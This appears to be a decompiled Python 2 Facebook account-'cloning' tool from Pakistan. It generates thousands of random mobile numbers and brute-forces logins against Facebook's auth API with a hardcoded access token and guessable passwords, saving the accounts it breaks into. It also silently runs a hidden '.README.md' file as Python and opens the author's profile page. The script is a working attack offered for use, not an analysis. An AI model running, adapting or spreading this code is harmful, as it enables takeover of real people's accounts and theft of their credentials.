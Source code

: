 # coding: utf-8
# Decompiled By rj
# Github : https://github.com/rjjuwel00
# uncompyle6 version 1.1.2
# Original written rj


import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
__author__ = 'USMAN'
__copyright = 'All rights reserved . Copyright  USMAN SHAHZAD'
CorrectUsername = 'RJ Juwel '
os.system('clear')
loop = 'true'
while (loop == 'true'):
    username = raw_input('\033[1;92mENTER KEY => :- ')
    if (username == CorrectUsername):
            print '\033[1;92m Logged in successfully as '
            time.sleep(1)
            os.system('xdg-open https://www.facebook.com/usman.rajpoot.1100')
            os.system('clear')
            loop = 'false'
    else:
        print '\033[1;93m Wrong Key !'
        os.system('xdg-open https://www.facebook.com/usman.rajpoot.1100')
        os.system('clear')
        os.system('clear')
done = False
os.system('rm -rf .txt')
for n in range(20000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 .README.md')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print '[!] Exit Successfully '
    os.sys.exit()


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!' + w[random.randint(0, len(w) - 1)] + i

    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x = x.replace('!%s' % i, '\x1b[%s;1m' % str(31 + j))

    x += '\x1b[0m'
    x = x.replace('!0', '\x1b[0m')
    sys.stdout.write(x + '\n')


def jalan(x):
    for e in x + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(3.0 / 200)


def tik():
    titik = ['   ', '. ', '.. ', '...', '. ', '.. ', '...', '']
    for o in titik:
        print '\r\x1b[1;96m \x1b[1;96m               Load\x1b[1;96ming\x1b[1;0m\x1b[1;96m' + o,
        sys.stdout.flush()
        time.sleep(0.5)

##### LOGO #####
logo = """
 \033[1;96;_______        _____      _____                           __             _    
\033[1;96;|_   __ \      |_   _|    |_   _|                         [  |           (_)   
\033[1;96;  | |__) |       | |        | | __   _  _   _   __  .---.  | |   _   __  __    
\033[1;96;  |  __ /    _   | |    _   | |[  | | |[ \ [ \ [  ]/ /__\\ | |  [ \ [  ][  |   
\033[1;96;_| |  \ \_ | |__' |   | |__' | | \_/ |,\ \/\ \/ / | \__., | |   \ \/ /  | |   
\033[1;96;|____| |___|`.____.'   `.____.' '.__.'_/ \__/\__/   '.__.'[___]   \__/  [___]  
                                                                               
\033[1;91m Author      :  RJ Juwel 
\033[1;91m GitHub      : https://github.com/rjjuwel00
\033[1;91m LOVER🙈    : RJ Juwel 
\033[1;91m FACEBOOK     :  RJ Juwel 
\033[1;91m VERSOIN   : ________
\033[1;97m--------------------------------------------------
                                                 """
logo1 = '     \n\n\x1b[4;96mSELECT PAK  SIM CODE \x1b[1;0m\n\x1b[1;96m[1] Jazz    \x1b[1;97m 00,01,02,03,04,05,06,07,08\n\x1b[1;96m[2] Zong    \x1b[1;97m 11,12,13,14,15,16,17\n\x1b[1;96m[3] Warid   \x1b[1;97m 21,22,23,24,25\n\x1b[1;96m[4] Ufone   \x1b[1;97m 30,31,32,33,34,35\n\x1b[1;96m[5] Telenor \x1b[1;97m 40,41,42,43,44,45,46,47\n\n\n\n\x1bx \x1b[1;97m\x1b[1;0m\n'
back = 0
berhasil = []
cekpoint = []
oks = []
id = []
cpb = []

def menu():
    os.system('clear')
    print logo
    print(47*'-')
    print
    jalan ('\x1b[1;96m[1] START Random Number Cloning ')
    print
    print(47*'-')
    action()

def action():
    global cpb
    global oks
    ss = raw_input('\x1b[1;96mselect 1= ')
    if ss == '':
        print '[!] Warning'
        action()
    elif ss == '1':
        tik()
        os.system('clear')
        print logo
        print logo1
        try:
            c = raw_input('\x1b[1;97mCODE : ')
            k = '03'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif ss == '0':
        exb()
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    os.system('clear')
    print logo
    jalan ('\x1b[1;97mUse without internet sim.minimize termux and check every 10 minutes  later. airplane mode use every 10 mint.')
    print(47*'-')
    xxx = str(len(id))
    jalan('\x1b[1;97m              TOTAL IDS :\x1b[1;96m ' + xxx)
    print(47*'-')
    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;94m  [RJ Juwel _OK]  ' + k + c + user + '  ^  ' + pass1
                okb = open('save/CP.txt', 'a')
                okb.write(k + c + user + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;93m  [RJ Juwel _CP] ' + k + c + user + '  ^  ' + pass1
                cps = open('save/CP.txt', 'a')
                cps.write(k + c + user + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = k + c + user
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[1;96m  [RJ Juwel _OK] ' + k + c + user + '  ^  ' + pass2
                    okb = open('save/OK.txt', 'a')
                    okb.write(k + c + user + pass2 + '\n')
                    okb.close()
                    oks.append(c + user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;95m  [RJ Juwel _CP] ' + k + c + user + '  ^  ' + pass2
                    cps = open('save/CP.txt', 'a')
                    cps.write(k + c + user + pass2 + '\n')
                    cps.close()
                    cpb.append(c + user + pass2)
                else:
                    pass3 = '123456'
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;96m  [RJ Juwel _OK]  ' + k + c + user + '  ^  ' + pass3
                        okb = open('save/CP.txt', 'a')
                        okb.write(k + c + user + pass3 + '\n')
                        okb.close()
                        oks.append(c + user + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;97m  [RJ Juwel _CP] ' + k + c + user + '  ^  ' + pass3
                        cps = open('save/CP.txt', 'a')
                        cps.write(k + c + user + pass3 + '\n')
                        cps.close()
                        cpb.append(c + user + pass3)

        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print(48*"-")
    print 'Process Has Been Completed ...'
    print 'Total OK : ' + str(len(oks))
    print 'Total CP : ' + str(len(cpb))
    print(47*"-")
    print 'Cloned Accounts Has Been Saved : save/cloned.txt'
    jalan('Note : Cp account  10 say 12 days BAD OPEN KRY')
    raw_input('\n\x1b[1;97m[\x1b[1;98mRAJPOOT_menu_Back\x1b[1;95m]')
    login()


if __name__ == '__main__':
    menu()


  
